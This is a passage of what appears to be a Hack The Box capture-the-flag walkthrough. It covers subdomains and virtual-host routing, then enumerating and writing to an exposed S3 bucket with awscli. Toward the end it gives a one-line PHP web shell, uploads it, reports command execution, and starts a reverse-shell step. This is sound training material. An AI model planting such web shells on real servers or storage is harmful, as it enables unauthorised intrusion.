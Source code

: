For example, if we visit hackthebox.com we can access the main website. Or, we can visit
ctf.hackthebox.com to access the section of the website that is used for CTFs. In this case, ctf is the
subdomain, hackthebox is the primary domain and com is the [top-level domain](https://www.cloudflare.com/en-in/learning/dns/top-level-domain/) (TLD). Although the URL changes slightly, you’re still on HTB's website, under HTB's domain.

Often, different subdomains will have different IP addresses, so when our system goes to look up the subdomain, it gets the address of the server that handles that application. It is also possible to have one server handle multiple subdomains. This is accomplished via "host-based routing", or "virtual host routing", where the server uses the Host header in the HTTP request to determine which application is meant to handle the request.

If using Gobuster version 3.2.0 and above we also have to add the --append-domain flag to our
command so that the enumeration takes into account the known vHost ( thetoppers.htb ) and appends it to the words found in the wordlist ( word.thetoppers.htb ).

To interact with S3 bucket you have the utility `awscli`.

Configure the command.

```bash
aws configure
```

List all of the S3 buckets hosted by the server by using the `ls` command

```
aws --endpoint=http://s3.thetoppers.htb s3 ls
```

You can also use the ls command to list objects and common prefixes under the specified bucket.

```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

`awscli` has got another feature that allows us to copy files to a remote bucket.

Try uploading a PHP shell file to the S3 bucket (get cmd inside):

```
<?php system($_GET["command"]); ?>
```

Create a PHP file to upload (get cmd inside).

```
echo '<?php system($_GET["command"]); ?>' > shell.php
```

Upload this PHP shell to the thetoppers.htb S3 bucket using the following command.

```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

The response from the server contains the output of the OS command id , which verified that we have code execution on the box. Thus, let us now try to obtain a reverse shell.
Through a reverse shell, we will trigger the remote host to connect back to our local machine's IP address on the specified listening port. We can obtain the tun0 IP address of our local machine using the following command.
